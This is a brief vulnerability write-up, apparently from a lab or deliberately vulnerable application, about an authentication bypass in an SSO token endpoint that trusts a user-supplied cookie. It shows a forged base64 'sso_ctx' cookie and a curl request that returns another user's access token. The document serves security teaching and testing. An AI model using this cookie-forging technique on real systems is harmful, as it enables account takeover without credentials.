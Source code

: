 # SSO Cookie Authentication Bypass

## Overview

An *authentication bypass* vulnerability exists in `GetTokenSSO` method in `AuthorizationsController` class due to incorrect trust on user supplied data.

## Exploitation

The vulnerable endpoint is accessible through the following URL:

```
http://rws.local:5000/api/authorizations/GetTokenSSO
```

It is possible to exploit this endpoint to generate access token for arbitrary user by specially crafting the value of `sso_ctx` cookie.

We craft the cookie value as below:

```
$ echo '{ "auth_user": "8" }' | base64
eyAiYXV0aF91c2VyIjogIjgiIH0K
```

On sending this specially crafted value, we get the access token for user with `ID` 8:

```
$ curl -H 'Cookie: sso_ctx=eyAiYXV0aF91c2VyIjogIjgiIH0K' http://rws.local:5000/api/authorizations/GetTokenSSO

{"role":"User","accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGVzdEB0ZXN0LmNvbSIsInJvbGUiOiJVc2VyIiwiZXhwIjoxNTI2NDkxNTMxLCJpc3MiOiJodHRwOi8vbG9jYWxob3N0LmxvY2FsLyIsImF1ZCI6Imh0dHA6Ly9sb2NhbGhvc3QubG9jYWwvIn0.EJh2ZN_gJvPjl3KrSqqsaahfDzq9kiTMQ88K1ViGIpA"}
```

> This results in authentication bypass as we can generate an `accessToken` for any user without supplying valid credentials.